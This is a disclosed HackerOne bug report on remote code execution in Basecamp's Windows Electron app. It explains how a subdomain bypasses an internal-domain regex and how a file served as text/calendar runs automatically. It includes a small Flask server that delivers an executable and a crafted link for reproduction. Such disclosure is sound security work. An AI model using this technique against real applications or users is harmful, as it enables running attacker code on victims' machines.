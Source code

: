 # Remote Code Execution in Basecamp Windows Electron App

## Report Details
- **Report ID**: 1016966
- **URL**: https://hackerone.com/reports/1016966
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-10-23T11:30:45.346Z
- **Disclosed**: 2020-11-19T21:24:55.782Z

## Reporter
- **Username**: co0sin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
The Windows application for Basecamp, allows a "Download" feature for images in your posts. Under certain restrictions, those files are downloaded and sometimes even automatically opened (executed). The file will be executed if it's a download from an internal URL and the mimetype is text/calendar. But these restrictions can be bypassed to execute an attacker crafted file.

I was able to craft a link, which when clicked by a user, will be downloaded and executed! 

To get file execution on the user, we bypass the restrictions first:
There is a regular expression which checks for "internal domains", which can easily be bypassed by controlling the subdomain. The host pattern is `/(launchpad\.37signals\.com|launchpad\.(?:dev|test))/` and `/(3\.(?:staging\.)?basecamp\.com|bc3\.(?:dev|test))/`. By controlling the subdomain, and setting it to something like `launchpad.dev.mydomain.com`, we can bypass this regular expression verification.

Since we'll be sending the request to our own server, we simply need to return `text/calendar` as the content-type header. This can be seen in the Electron code in `OPENABLE_MIME_TYPES = new Set(["text/calendar"]);`
And then when adding the URL to your post, simply add the `?attachment=true` to the URL. 


To reproduce, simply register any subdomain that starts with `launchpad.dev.` (mine is `launchpad.dev.████`).
An HTTP server with the needed mimetype header, can be setup with Flask easily with this code:
```
from flask import Flask, send_from_directory
app = Flask(__name__)
@app.route('/<path:path>')
def hello(path):
    return send_from_directory(".", "file.exe", as_attachment=True, mimetype="text/calendar")
if __name__ == '__main__':
    app.run(port=80,host="0.0.0.0")
```

Then add the link to your post with the appropriate `attachment` parameter, as such:
`http://launchpad.dev.█████████/file.exe?attachment=true`

## Impact

Remote code execution on any user which clicks a link on your crafted post through the desktop app.

## Attachments
No attachments

